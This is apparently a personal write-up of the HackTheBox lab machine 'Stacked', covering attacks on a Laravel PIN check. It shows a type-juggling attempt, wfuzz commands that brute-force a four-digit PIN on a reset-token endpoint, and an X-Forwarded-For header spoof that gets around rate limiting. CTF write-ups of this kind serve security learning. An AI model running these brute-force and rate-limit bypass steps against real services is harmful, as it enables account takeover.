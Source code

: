 ```yaml
---
title: htb stacked
author: Yuchao
date: 2022-04-02 11:33:00 +0800
categories: [sec]
tags: [htb]
math: true
mermaid: true
---
```


Know it`s an php lavarel application behind nginx.

## Brute force Laravel application pin

#### try type juggling
- change content type to application/json
- application/x-www-form-urlencoded, body is ``` name=admin&pin=1234 ```
-  application/json, body is ``` {"name":"admin", "pin":true} ``` try type juggling, php == not === vulnarability, but no on this box.

#### fuzz 
- In type Juggling, we know the php uses ===
- ``` wfuzz -H 'Cookie:{content}' -H 'Content-Type:application/x-www-form-urlencoded' -u {URL/api/resettoken} -d 'name=admin&pin=FUZZ' -z range,1000-9999 ```
- response "too many requests"
- need to bypass rate limit.

#### bypass rate limit
search website like <https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass>

find a way: add ``` X-Forwarded-For: {IP} ``` in the header.

wfuzz with two fuzz positions.
```bash
wfuzz -e iterators

# Available iterators:

#   Name    | Summary                                                                           
# ----------------------------------------------------------------------------------------------
#   chain   | Returns an iterator returns elements from the first iterable until it is exhaust  
#           | ed, then proceeds to the next iterable, until all of the iterables are exhausted  
#           | .                                                                                 
#   product | Returns an iterator cartesian product of input iterables.                         
#   zip     | Returns an iterator that aggregates elements from each of the iterables.  
```


